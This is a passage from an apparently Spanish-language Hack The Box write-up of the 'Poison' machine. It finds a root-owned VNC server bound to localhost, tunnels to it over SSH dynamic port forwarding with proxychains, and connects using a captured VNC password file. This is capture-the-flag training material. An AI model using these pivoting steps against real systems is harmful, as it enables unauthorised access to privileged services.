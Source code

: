 Vemos que los `servicios` los está `corriendo` el usuario `root`

```
charix@Poison:~ % sockstat -4 | grep '5801\|5901'
root     Xvnc       614   1  tcp4   127.0.0.1:5901        *:*
root     Xvnc       614   3  tcp4   127.0.0.1:5801        *:*
```

Con `proxychains` vamos a realizar un `dinamic port forwarding` para traernos `todos` los `puertos` de la máquina víctima a nuestro equipo. Para ello `modificamos` el `archivo` `/etc/proxychains4.conf` añadiéndole esta línea al final

```
# sudo nano /etc/proxychains4.conf
socks4  127.0.0.1 9050
```

Nos `conectamos` a la máquina víctima por `SSH` realizando un `dinamic port forwarding`

```
# ssh charix@10.129.252.206 -D 9050 
(charix@10.129.252.206) Password for charix@Poison:
Last login: Mon Aug  5 14:02:08 2024 from 10.10.16.35
FreeBSD 11.1-RELEASE (GENERIC) #0 r321309: Fri Jul 21 02:08:28 UTC 2017

Welcome to FreeBSD!

Release Notes, Errata: https://www.FreeBSD.org/releases/
Security Advisories:   https://www.FreeBSD.org/security/
FreeBSD Handbook:      https://www.FreeBSD.org/handbook/
FreeBSD FAQ:           https://www.FreeBSD.org/faq/
Questions List: https://lists.FreeBSD.org/mailman/listinfo/freebsd-questions/
FreeBSD Forums:        https://forums.FreeBSD.org/

Documents installed with the system are in the /usr/local/share/doc/freebsd/
directory, or can be installed later with:  pkg install en-freebsd-doc
For other languages, replace "en" with a language code like de or fr.

Show the version of FreeBSD installed:  freebsd-version ; uname -a
Please include that output and any error messages when posting questions.
Introduction to manual pages:  man man
FreeBSD directory layout:      man hier

Edit /etc/motd to change this login announcement.
You can press Ctrl-L while in the shell to clear the screen.
csh: The terminal database could not be opened.
csh: using dumb terminal settings.
charix@Poison:~ % 
```

Usando `proxychains` abrimos `vncviewer`

```
# proxychains vncviewer -passwd secret 127.0.0.1::5901 
```
